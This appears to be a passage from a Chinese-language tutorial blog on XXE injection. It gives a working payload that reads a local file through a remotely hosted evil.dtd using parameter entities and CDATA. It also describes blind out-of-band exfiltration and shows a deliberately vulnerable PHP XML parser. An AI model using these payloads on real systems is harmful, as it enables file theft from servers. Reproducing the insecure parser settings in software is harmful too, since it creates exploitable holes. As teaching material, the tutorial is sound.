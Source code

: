 引用并不接受可能会引起 xml 格式混乱的字符(在XML中，有时实体内包含了些字符，如&,<,>,",'等。这些均需要对其进行转义，否则会对XML解释器生成错误)，我们想在引用的两边加上 "<![CDATA["和"]]>”,但是好像没有任何语法告诉我们字符串能拼接的，于是我想到了能不能使用多个实体连续引用的方法

**结果如下图：**



![XXE4](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/XXE4.png)

注意，这里面的三个实体都是字符串形式，连在一起居然报错了，这说明我们不能在 xml 中进行拼接，而是需要在拼接以后再在 xml 中调用，那么要想在DTD中拼接，我们知道我们只有一种选择，就是使用**参数实体**

**payload:**

```xml-dtd
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
<!ENTITY % goodies SYSTEM "file:///D:/test.txt">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://ip/evil.dtd"> %dtd; ]> 
<roottag>&all;</roottag>
```

**evil.dtd:**

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY all "%start;%goodies;%end;">
```

**结果如下图：**

![XXE5](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/XXE5.png)

**tips:提一个点，如果是在 java 中 还有一个协议能代替 file 协议 ，那就是 netdoc **

#### 新的问题出现

但是，你想想也知道，本身人家服务器上的 XML 就不是输出用的，一般都是用于配置或者在某些极端情况下利用其他漏洞能恰好实例化解析 XML 的类，因此我们想要现实中利用这个漏洞就必须找到一个不依靠其回显的方法------外带

#### 新的解决方法

想要外带就必须能发起请求，那么什么地方能发起请求呢？ 很明显就是我们的外部实体定义的时候，其实光发起请求还不行，我们还得能把我们的数据传出去，而我们的数据本身也是一个对外的请求，也就是说，我们需要在请求中引用另一次请求的结果，分析下来只有我们的参数实体能做到了(并且根据规范，我们必须在一个 DTD 文件中才能完成“请求中引用另一次请求的结果”的要求)

### 实例二：无回显读取本地敏感文件(Blind OOB XXE)

**xxe.php**

```php
<?php
libxml_disable_entity_loader (false);
$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
?>
```
